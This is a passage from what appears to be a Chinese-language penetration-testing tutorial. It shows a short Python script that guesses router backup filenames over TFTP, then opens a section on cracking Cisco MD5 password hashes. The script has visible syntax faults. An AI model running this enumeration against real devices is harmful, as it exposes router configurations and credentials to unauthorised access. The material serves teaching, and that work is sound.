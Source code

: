 ```py
#!/usr/bin/env python
try:
    import tftpy
except:
    sys.exit(“[!] Install the package tftpy with: pip install tftpy”)
def main():
    ip = "192.168.195.165"
    port = 69
    tclient = tftpy.TftpClient(ip,port)
    for inc in range(0,100):
        filename = "example_router" + "-" + str(inc)
        print("[*] Attempting to download %s from %s:%s") % (filename,ip,port)
        try:
tclient.download(filename,filename)
        except:
            print("[-] Failed to download %s from %s:%s") % (filename,ip,port)

if __name__ == '__main__':
    main()
```

正如你所看到的，这个脚本是用来查找从`example_router-0`到`example_router-99`的路由器备份的。结果可以在输出目录中看到，如下所示：

![确定备份文件名](img/B04315_07_05.jpg)

现在，我们只需要确定每个文件的大小，以找到实际的路由器备份，使用`ls -l`命令。这个命令的示例输出可以在下面的截图中看到。正如你在这里看到的，`example_router-5`似乎是一个包含数据的实际文件：

![确定备份文件名](img/B04315_07_06.jpg)

## 破解思科 MD5 哈希

现在我们可以看看备份文件中是否有任何哈希密码，如下所示：

![破解思科 MD5 哈希](img/B04315_07_07.jpg)
